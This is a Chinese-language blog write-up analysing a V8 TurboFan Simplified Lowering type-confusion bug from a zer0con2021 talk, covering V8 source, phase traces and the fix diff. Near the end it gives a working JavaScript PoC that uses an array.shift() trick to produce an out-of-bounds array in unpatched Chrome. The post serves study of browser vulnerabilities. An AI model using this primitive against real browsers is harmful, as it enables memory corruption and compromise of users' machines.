





最近学习了zer0con2021中的chrome exploitation议题，收获很大，在这里做一个简单的总结。

### poc

我们这里先简单放一个分析漏洞时使用的poc，下面的分析过程默认都使用了该代码。

```
function foo(a) {
  var y = 0x7fffffff;
  if (a == NaN) y = NaN;
  if (a) y = -1;
  let z = y + 1;
  z >>= 31;
  z = 0x80000000 - Math.sign(z|1);
  if(a) z = 0;
  z = 0-Math.sign(z);
  return z;
}
```

### root case

在分析主要成因时，我们首先来简单分析一下他的Simplified lowering阶段，主要从以下三部分下手：

- The truncation propagation phase (RunTruncationPropagationPhase)
    - 反向数据流分析，传播truncations，并设置restriction_type。

- The type propagation phase (RunTypePropagationPhase)
    - 正向数据流分析，根据feedback_type重新计算type信息。

- The lowering phase (Run, after calling the previous phases)
    - 降级nodes
    - 插入conversion nodes

```
void Run(SimplifiedLowering* lowering) {
    GenerateTraversal();
    RunPropagatePhase();
    RunRetypePhase();
    RunLowerPhase(lowering);
  }
```

##### --{Propagate phase}--

```
  void RunPropagatePhase() {
    TRACE("--{Propagate phase}--\n");
    ResetNodeInfoState();
    DCHECK(revisit_queue_.empty());

    // Process nodes in reverse post order, with End as the root.
    for (auto it = traversal_nodes_.crbegin(); it != traversal_nodes_.crend();
         ++it) {
      PropagateTruncation(*it);

      while (!revisit_queue_.empty()) {
        Node* node = revisit_queue_.front();
        revisit_queue_.pop();
        PropagateTruncation(node);
      }
    }
  }


void PropagateTruncation(Node* node) {
    NodeInfo* info = GetInfo(node);
    info->set_visited();
    TRACE(" visit #%d: %s (trunc: %s)\n", node->id(), node->op()->mnemonic(),
          info->truncation().description());
    VisitNode<PROPAGATE>(node, info->truncation(), nullptr);
  }
  
  
  template <Phase T>
  void VisitNode(Node* node, Truncation truncation,
                 SimplifiedLowering* lowering) {
    switch (node->opcode()) {
      case IrOpcode::kEnd:
      ....
      case IrOpcode::kJSParseInt:
        VisitInputs<T>(node);
        // Assume the output is tagged.
        return SetOutput<T>(node, MachineRepresentation::kTagged);
```
可以看到我们对每个节点调用对应的visit，并且如果被访问的节点的truncation被修改的话，我们会将其存入revisit_queue_。

该过程是从end开始的，可以看到对于end节点他将不会添加任何截断，最后将output修改为kTagged结束。
```
 visit #92: End (trunc: no-value-use)
  initial #91: no-value-use
```


下面简单举几个例子：

我们先接着去看return：
```
    case IrOpcode::kReturn:
        VisitReturn<T>(node);
        // Assume the output is tagged.
        return SetOutput<T>(node, MachineRepresentation::kTagged);
        
        
  template <Phase T>
  void VisitReturn(Node* node) {
    int first_effect_index = NodeProperties::FirstEffectIndex(node);
    // Visit integer slot count to pop
    ProcessInput<T>(node, 0, UseInfo::TruncatingWord32());

    // Visit value, context and frame state inputs as tagged.
    for (int i = 1; i < first_effect_index; i++) {
      ProcessInput<T>(node, i, UseInfo::AnyTagged());
    }
    // Only enqueue other inputs (effects, control).
    for (int i = first_effect_index; i < node->InputCount(); i++) {
      EnqueueInput<T>(node, i);
    }
  }
```
根据代码，只有第一个input将会被截断，其他input不会截断，之后将return结点的output设置为Tagged。
```
 visit #91: Return (trunc: no-value-use)
  initial #70: truncate-to-word32
  initial #90: no-truncation (but distinguish zeros)
  initial #90: no-truncation (but distinguish zeros)
  initial #68: no-value-use
```


接着是SpeculativeSafeIntegerSubtract

```
case IrOpcode::kSpeculativeSafeIntegerAdd:
      case IrOpcode::kSpeculativeSafeIntegerSubtract:
        return VisitSpeculativeIntegerAdditiveOp<T>(node, truncation, lowering);
        


template <Phase T>
void VisitSpeculativeIntegerAdditiveOp(Node* node, Truncation truncation,
                                         SimplifiedLowering* lowering) {
    Type left_upper = GetUpperBound(node->InputAt(0));
    Type right_upper = GetUpperBound(node->InputAt(1));

    if (left_upper.Is(type_cache_->kAdditiveSafeIntegerOrMinusZero) &&
        right_upper.Is(type_cache_->kAdditiveSafeIntegerOrMinusZero)) {
      // Only eliminate the node if its typing rule can be satisfied, namely
      // that a safe integer is produced.
      if (truncation.IsUnused()) return VisitUnused<T>(node);

      // If we know how to interpret the result or if the users only care
      // about the low 32-bits, we can truncate to Word32 do a wrapping
      // addition.
      if (GetUpperBound(node).Is(Type::Signed32()) ||
          GetUpperBound(node).Is(Type::Unsigned32()) ||
          truncation.IsUsedAsWord32()) {
        // => Int32Add/Sub
        VisitWord32TruncatingBinop<T>(node);
        if (lower<T>()) ChangeToPureOp(node, Int32Op(node));
        return;
      }
    }

   .......
}
```
注意这里的if判断，if (GetUpperBound(node).Is(Type::Signed32()) || GetUpperBound(node).Is(Type::Unsigned32()) || truncation.IsUsedAsWord32())
他这里会判断节点的截断是否为word32，这里是不满足的,根据上面return节点的截断传递结果，可以看到是没有截断传递到我们当前的结点的，因为这里是或的关系，我们的左右操作数分别为range(0,0)、range(0,1)满足Is(Type::Unsigned32())，所以接下来会调用VisitWord32TruncatingBinop<T>(node)。

```
  template <Phase T>
  void VisitWord32TruncatingBinop(Node* node) {
    VisitBinop<T>(node, UseInfo::TruncatingWord32(),
                  MachineRepresentation::kWord32);
  }
  

  template <Phase T>
  void VisitBinop(Node* node, UseInfo input_use, MachineRepresentation output,
                  Type restriction_type = Type::Any()) {
    VisitBinop<T>(node, input_use, input_use, output, restriction_type);
  }
  
    template <Phase T>
  void VisitBinop(Node* node, UseInfo left_use, UseInfo right_use,
                  MachineRepresentation output,
                  Type restriction_type = Type::Any()) {
    DCHECK_EQ(2, node->op()->ValueInputCount());
    ProcessInput<T>(node, 0, left_use);
    ProcessInput<T>(node, 1, right_use);
    for (int i = 2; i < node->InputCount(); i++) {
      EnqueueInput<T>(node, i);
    }
    SetOutput<T>(node, output, restriction_type);
  
```
根据上面的代码可知：该结点的前两个input结点将被设置word32截断，之后会将所有input加入enqueue，并且将output也就是输出类型设置为Type::Any()。
结果如下：
```
 visit #90: SpeculativeSafeIntegerSubtract (trunc: no-truncation (but distinguish zeros))
  initial #70: truncate-to-word32
  initial #110: truncate-to-word32
  initial #102: no-value-use
  initial #68: no-value-use
```


跳过一些不重要的内容，我们直接去看关键代码处：

```
let z = y + 1;
```
我们去看这个add结点处的代码：

```
      case IrOpcode::kSpeculativeSafeIntegerAdd:
      case IrOpcode::kSpeculativeSafeIntegerSubtract:
        return VisitSpeculativeIntegerAdditiveOp<T>(node, truncation, lowering);
        
        
  template <Phase T>
  void VisitSpeculativeIntegerAdditiveOp(Node* node, Truncation truncation,
                                         SimplifiedLowering* lowering) {
    ....
    } else {
      // If the output's truncation is identify-zeros, we can pass it
      // along. Moreover, if the operation is addition and we know the
      // right-hand side is not minus zero, we do not have to distinguish
      // between 0 and -0.
      IdentifyZeros left_identify_zeros = truncation.identify_zeros();
      if (node->opcode() == IrOpcode::kSpeculativeSafeIntegerAdd &&
          !right_feedback_type.Maybe(Type::MinusZero())) {
        left_identify_zeros = kIdentifyZeros;
      }
      UseInfo left_use = CheckedUseInfoAsWord32FromHint(hint, FeedbackSource(),
                                                        left_identify_zeros);
      // For CheckedInt32Add and CheckedInt32Sub, we don't need to do
      // a minus zero check for the right hand side, since we already
      // know that the left hand side is a proper Signed32 value,
      // potentially guarded by a check.
      UseInfo right_use = CheckedUseInfoAsWord32FromHint(hint, FeedbackSource(),
                                                         kIdentifyZeros);
      VisitBinop<T>(node, left_use, right_use, MachineRepresentation::kWord32,
                    Type::Signed32());
    }
    
    ......
  }
```

VisitSpeculativeIntegerAdditiveOp会步入到上面所示的else分支处，这里有个很重要的内容VisitBinop，我们上面也见过了，它主要的作用就是对input结点传递截断信息，并且它还会将restriction_type更新为Type::Signed32()。！！这里很重要

```
  template <Phase T>
  void VisitBinop(Node* node, UseInfo left_use, UseInfo right_use,
                  MachineRepresentation output,
                  Type restriction_type = Type::Any()) {
    DCHECK_EQ(2, node->op()->ValueInputCount());
    ProcessInput<T>(node, 0, left_use);
    ProcessInput<T>(node, 1, right_use);
    for (int i = 2; i < node->InputCount(); i++) {
      EnqueueInput<T>(node, i);
    }
    SetOutput<T>(node, output, restriction_type);
  }
```
结果：
```
 visit #43: SpeculativeSafeIntegerAdd (trunc: truncate-to-word32)
  initial #39: no-truncation (but identify zeros)
  initial #42: no-truncation (but identify zeros)
  initial #22: no-value-use
  initial #36: no-value-use
```

##### --{Retype phase}--
retype是正向数据流分析和截断相反，是从start节点开始的。

趁热打铁，我们来看下SpeculativeSafeIntegerAdd那里的Retype。

```
#43:SpeculativeSafeIntegerAdd[SignedSmall]
(#39:Phi, #42:NumberConstant, #22:SpeculativeNumberEqual, #36:Merge)  
[Static type: Range(0, 2147483648), Feedback type: Range(0, 2147483647)]
```
这个结果是怎么得到的呢，我们来分析一下Retype阶段：

```
  bool RetypeNode(Node* node) {
    NodeInfo* info = GetInfo(node);
    info->set_visited();
    bool updated = UpdateFeedbackType(node);
    TRACE(" visit #%d: %s\n", node->id(), node->op()->mnemonic());
    VisitNode<RETYPE>(node, info->truncation(), nullptr);
    TRACE("  ==> output %s\n", MachineReprToString(info->representation()));
    return updated;
  }
  
  
  bool UpdateFeedbackType(Node* node) {
    
    ....
    
    Type input0_type;
    if (node->InputCount() > 0) input0_type = FeedbackTypeOf(node->InputAt(0));
    Type input1_type;
    if (node->InputCount() > 1) input1_type = FeedbackTypeOf(node->InputAt(1));

    switch (node->opcode()) {
    
    ....
    
    #define DECLARE_CASE(Name)                                      \
    case IrOpcode::k##Name: {                                              \
        new_type = Type::Intersect(op_typer_.Name(input0_type, input1_type), \
                               info->restriction_type(), graph_zone());  \
        break;                                                               \
      }
      SIMPLIFIED_SPECULATIVE_NUMBER_BINOP_LIST(DECLARE_CASE)
      SIMPLIFIED_SPECULATIVE_BIGINT_BINOP_LIST(DECLARE_CASE)
    #undef DECLARE_CASE

    ....

    new_type = Type::Intersect(GetUpperBound(node), new_type, graph_zone());

    if (!type.IsInvalid() && new_type.Is(type)) return false;
    GetInfo(node)->set_feedback_type(new_type);
    if (FLAG_trace_representation) {
        PrintNodeFeedbackType(node);
      }
    return true;
  }
    

  Type FeedbackTypeOf(Node* node) {
    Type type = GetInfo(node)->feedback_type();
    return type.IsInvalid() ? Type::None() : type;
  }
  
  #define SIMPLIFIED_SPECULATIVE_NUMBER_BINOP_LIST(V) \
  V(SpeculativeNumberAdd)                           \
  V(SpeculativeNumberSubtract)                      \
  V(SpeculativeNumberMultiply)                      \
  ....
```
解释一下上面的代码：
首先RetypeNode通过对每个节点调用UpdateFeedbackType来更新类型，在UpdateFeedbackType中首先会对前两个input节点调用FeedbackTypeOf，这个函数很简单主要是去判断该节点对应的nodeinfo上是否设置了feedback类型，如果有则使用该类型，无的话则返回Type::None()。

重头戏在这个位置：new_type = Type::Intersect(op_typer_.Name(input0_type, input1_type), info->restriction_type(), graph_zone()); 
首先最外层是一个取交集的操作，op\_typer\_.Name()这个怎么理解呢，不知道大伙还记得typer阶段的分析代码吗（这里把代码放在了下面辅助理解），这里就相当于把input0_type和input1_type重新带入，再次调用一次SpeculativeSafeIntegerAdd的type分析，计算出对应的type，这里也就是上面结果中的Range(0, 2147483648)。
```
typer phase:
#define SPECULATIVE_NUMBER_BINOP(Name)                         \
  Type OperationTyper::Speculative##Name(Type lhs, Type rhs) { \
    lhs = SpeculativeToNumber(lhs);                            \
    rhs = SpeculativeToNumber(rhs);                            \
    return Name(lhs, rhs);                                     \
  }
```

之后获得的Range(0, 2147483648)将会和info->restriction_type()取交集，我们在上面将他的restriction_type设置为了Type::Signed32()，也就是range(-2147483648,2147483647)，所以这里就是将Range(0, 2147483648)和range(-2147483648,2147483647)取交集，最后得到了他的Feedback type: Range(0, 2147483647)，之后通过set_feedback_type将这个type更新到nodeinfo的feedback_type字段上。

之后这个feedback_type被继续向后传播，最后产生如下结果：
```
//let z = y + 1;  实际值：2147483648
#43:SpeculativeSafeIntegerAdd[SignedSmall]
(#39:Phi, #42:NumberConstant, #22:SpeculativeNumberEqual, #36:Merge)  
[Static type: Range(0, 2147483648), Feedback type: Range(0, 2147483647)]

//z >>= 31;   实际值：-1
#45:SpeculativeNumberShiftRight[SignedSmall]
(#43:SpeculativeSafeIntegerAdd, #44:NumberConstant, #43:SpeculativeSafeIntegerAdd, #36:Merge)  
[Static type: Range(-1, 0), Feedback type: Range(0, 0)]

//Math.sign(z|1);
#58:SpeculativeNumberBitwiseOr[SignedSmall]
(#45:SpeculativeNumberShiftRight, #42:NumberConstant, #99:LoadField, #36:Merge)  
[Static type: Range(-1, 2147483647), Feedback type: Range(1, 1)]

#104:NumberSign
(#58:SpeculativeNumberBitwiseOr)  
[Static type: Range(-1, 1), Feedback type: Range(1, 1)]

//z = 0x80000000 - Math.sign(z|1)   实际值：-2147483647
#113:NumberSubtract
(#46:NumberConstant, #104:NumberSign)  
[Static type: Range(2147483647, 2147483649), Feedback type: Range(2147483647, 2147483647)]

//if(a) z = 0;
#71:Phi[kRepTagged]
(#113:NumberSubtract, #70:NumberConstant, #68:Merge)  
[Static type: Range(0, 2147483649), Feedback type: Range(0, 2147483647)]

//z = 0-Math.sign(z);    实际值：1
#110:NumberSign(#71:Phi)  [Static type: Range(0, 1)]
#90:SpeculativeSafeIntegerSubtract[SignedSmall]
(#70:NumberConstant, #110:NumberSign, #102:CheckIf, #68:Merge)  
[Static type: Range(-1, 0)]
```


##### --{Lower phase}--

lower阶段，因为word32截断（truncation.IsUsedAsWord32），VisitSpeculativeIntegerAdditiveOp将会被降低为Int32Add而不是CheckedInt32Add。
这里和上面将他的restriction_type设置为Type::Signed32()产生了冲突，这里也就是漏洞的主要成因。
```
template <Phase T>
  void VisitSpeculativeIntegerAdditiveOp(Node* node, Truncation truncation,
                                         SimplifiedLowering* lowering) {
    .......
    
    if (lower<T>()) {
      if (truncation.IsUsedAsWord32() ||
          !CanOverflowSigned32(node->op(), left_feedback_type,
                               right_feedback_type, type_cache_,
                               graph_zone())) {
        ChangeToPureOp(node, Int32Op(node));
      } else {
        ChangeToInt32OverflowOp(node);
      }
    }
    
    .....   
}
```

这里简单总结一下漏洞成因：

由于Type::Intersect(op_typer_.Name(input0_type, input1_type), info->restriction_type(), graph_zone());和Type::Signed32()取交集最终产生了Feedback type: Range(0, 2147483647)这个类型，但是我们实际是执行了0x7fffffff + 1 = 0x80000000，最终会溢出成-0x80000000，但是这个2147483648并没有包含在Feedback type中。

之后我们通过运算去影响NumberSign的lower：
我们这里来对比一下补丁前后的lower结果：

补丁前：


```
伪代码：
if ChangeInt32ToFloat64 < 0:
    Select -1 
else:
    Select 1
```
补丁前我们进行的运算是0x80000000 - Math.sign(z|1)也就是0x80000000 - (-1)，由于Feedback type分析错误，导致得到的结果为Range(2147483647, 2147483647)，所以这里会生成ChangeInt32ToFloat64，这将导致实际值0x80000001当作了-2147483647代入了NumberSign，满足<0，最终返回-1。

之后我们就可以用这个实际值为1，优化值为range(-1,0)的值z，去创建array，之后利用array.shift()这个trick创建出一个长度为-1，即0xffffffff的越界数组。

补丁后：

```
#43:SpeculativeSafeIntegerAdd[SignedSmall]
(#39:Phi, #42:NumberConstant, #22:SpeculativeNumberEqual, #36:Merge)  
[Static type: Range(0, 2147483648)]

.....

#71:Phi[kRepTagged]
(#132:NumberSubtract, #70:NumberConstant, #68:Merge)  
[Static type: Range(0, 2147483649)]

#123:NumberSign(#71:Phi)  [Static type: Range(0, 1)]
```



```
伪代码：
if ChangeUInt32ToFloat64 < 0:
    Select -1 
else:
    Select 1
```
补丁后，由于SpeculativeSafeIntegerAdd得到了正确结果Range(0, 2147483648)，最终0x80000000 - Math.sign(z|1)的运算结果返回Range(0, 2147483649)，生成ChangeUInt32ToFloat64，0x80000001作为2147483649带入比较，自然大于0最终返回1。

##### 补丁

```
@@ -1453,6 +1452,13 @@
 
     Type left_feedback_type = TypeOf(node->InputAt(0));
     Type right_feedback_type = TypeOf(node->InputAt(1));
+
+    // Using Signed32 as restriction type amounts to promising there won't be
+    // signed overflow. This is incompatible with relying on a Word32
+    // truncation in order to skip the overflow check.
+    Type const restriction =
+        truncation.IsUsedAsWord32() ? Type::Any() : Type::Signed32();
+
     // Handle the case when no int32 checks on inputs are necessary (but
     // an overflow check is needed on the output). Note that we do not
     // have to do any check if at most one side can be minus zero. For
@@ -1466,7 +1472,7 @@
         right_upper.Is(Type::Signed32OrMinusZero()) &&
         (left_upper.Is(Type::Signed32()) || right_upper.Is(Type::Signed32()))) {
       VisitBinop<T>(node, UseInfo::TruncatingWord32(),
-                    MachineRepresentation::kWord32, Type::Signed32());
+                    MachineRepresentation::kWord32, restriction);
     } else {
       // If the output's truncation is identify-zeros, we can pass it
       // along. Moreover, if the operation is addition and we know the
@@ -1486,8 +1492,9 @@
       UseInfo right_use = CheckedUseInfoAsWord32FromHint(hint, FeedbackSource(),
                                                          kIdentifyZeros);
       VisitBinop<T>(node, left_use, right_use, MachineRepresentation::kWord32,
-                    Type::Signed32());
+                    restriction);
     }
+
     if (lower<T>()) {
       if (truncation.IsUsedAsWord32() ||
           !CanOverflowSigned32(node->op(), left_feedback_type,
```

```
visit #45: SpeculativeNumberShiftRight (trunc: truncate-to-word32)
  initial #43: truncate-to-word32
  initial #44: truncate-to-word32
  initial #43: truncate-to-word32
  initial #36: no-value-use
 visit #44: NumberConstant (trunc: truncate-to-word32)
 visit #43: SpeculativeSafeIntegerAdd (trunc: truncate-to-word32)
```
由于截断传递截断是反向数据流分析，我们在45结点处将截断传递给了它的input也就是43结点，这样SpeculativeSafeIntegerAdd结点就具有了word32截断，补丁添加了Type const restriction = truncation.IsUsedAsWord32() ? Type::Any() : Type::Signed32();这样就会在word32截断的情况下设置restriction为Type::Any()，避免了漏洞的产生。

##### 补充

上面分析过程中涉及到了一些知识在这里做一个补充：

1、 nodeinfo

```
  class NodeInfo final {
   public:
    
    ....

   private:
    enum State : uint8_t { kUnvisited, kPushed, kVisited, kQueued };
    State state_ = kUnvisited;
    MachineRepresentation representation_ =
        MachineRepresentation::kNone;             // Output representation.
    Truncation truncation_ = Truncation::None();  // Information about uses.

    Type restriction_type_ = Type::Any();
    Type feedback_type_;
    bool weakened_ = false;
  };
```
它主要负责记录数据流分析中结点的信息：
- truncation_：该节点的截断信息。
- restriction_type_：在截断传递截断被设置，用于在retype截断设置feedback_type_。
- feedback_type_：retype截断重新设置的type。
- representation_：节点retype完成之后最终的表示类型，可以用于指明应该如何lower到更具体的 节点，是否需要Convert。

2、 ProcessInput
它是一个模版函数，在Simplified lowering的三个阶段中都有不同的实现，我们重点来看截断传递阶段：
```
template <>
void RepresentationSelector::ProcessInput<PROPAGATE>(Node* node, int index,
                                                     UseInfo use) {
  DCHECK_IMPLIES(use.type_check() != TypeCheckKind::kNone,
                 !node->op()->HasProperty(Operator::kNoDeopt) &&
                     node->op()->EffectInputCount() > 0);
  EnqueueInput<PROPAGATE>(node, index, use);
}
```
它用到了EnqueueInput函数
```
template <>
void RepresentationSelector::EnqueueInput<PROPAGATE>(Node* use_node, int index,
                                                     UseInfo use_info) {
  Node* node = use_node->InputAt(index);
  NodeInfo* info = GetInfo(node);
#ifdef DEBUG
  // Check monotonicity of input requirements.
  node_input_use_infos_[use_node->id()].SetAndCheckInput(use_node, index,
                                                         use_info);
#endif  // DEBUG
  if (info->unvisited()) {
    info->AddUse(use_info);
    TRACE("  initial #%i: %s\n", node->id(), info->truncation().description());
    return;
  }
  TRACE("   queue #%i?: %s\n", node->id(), info->truncation().description());
  if (info->AddUse(use_info)) {
    // New usage information for the node is available.
    if (!info->queued()) {
      DCHECK(info->visited());
      revisit_queue_.push(node);
      info->set_queued();
      TRACE("   added: %s\n", info->truncation().description());
    } else {
      TRACE(" inqueue: %s\n", info->truncation().description());
    }
  }
}
```
它首先通过```
Node* node = use_node->InputAt(index);
NodeInfo* info = GetInfo(node);```来获取输入节点对应的nodeinfo信息，之后调用AddUse来更新nodeinfo中的truncation_成员，从而实现截断的传播。
```
bool AddUse(UseInfo info) {
      Truncation old_truncation = truncation_;
      truncation_ = Truncation::Generalize(truncation_, info.truncation());
      return truncation_ != old_truncation;
    }
```

3、 SetOutput
它同样是一个模版函数。
- 截断传递截断，它将更新节点对应的nodeinfo的 restriction_type_。
- retype截断，它将更新节点的representation表示。

```
template <>
void RepresentationSelector::SetOutput<PROPAGATE>(
    Node* node, MachineRepresentation representation, Type restriction_type) {
  NodeInfo* const info = GetInfo(node);
  info->set_restriction_type(restriction_type);
}

template <>
void RepresentationSelector::SetOutput<RETYPE>(
    Node* node, MachineRepresentation representation, Type restriction_type) {
  NodeInfo* const info = GetInfo(node);
  DCHECK(info->restriction_type().Is(restriction_type));
  DCHECK(restriction_type.Is(info->restriction_type()));
  info->set_output(representation);
}
```

##### 完整的oob poc：

这里用到了array.shift()这个trick（现在最新版本该trick已被修复），由于篇幅的限制这里就先不展开写了。
```
function foo(a) {
    var y = 0x7fffffff;
    if (a == NaN) y = NaN;
    if (a) y = -1;
    let z = y + 1;
    z >>= 31;
    z = 0x80000000 - Math.sign(z|1);
    if(a) z = 0;
    var arr = new Array(0-Math.sign(z));
    arr.shift();
    var cor = [1.1, 1.2, 1.3];
    return [arr, cor];
}
%PrepareFunctionForOptimization(foo);
foo(true);
%OptimizeFunctionOnNextCall(foo);
print(foo(false));
```
有了oob之后写exp就很容易了，就是常规写法这里就不叙述了。

### 有趣的点

由于turbofan中ir图显示的type都为Static type，无法体现Feedback type的变化，所以这个漏洞在分析的过程中和之前有一些不同，学到了很多。


### 参考链接

- https://github.com/singularseclab/Slides/blob/main/2021/chrome_exploitation-zer0con2021.pdf
- https://doar-e.github.io/blog/2020/11/17/modern-attacks-on-the-chrome-browser-optimizations-and-deoptimizations/

最后感谢sakura师傅在分析过程中的帮助。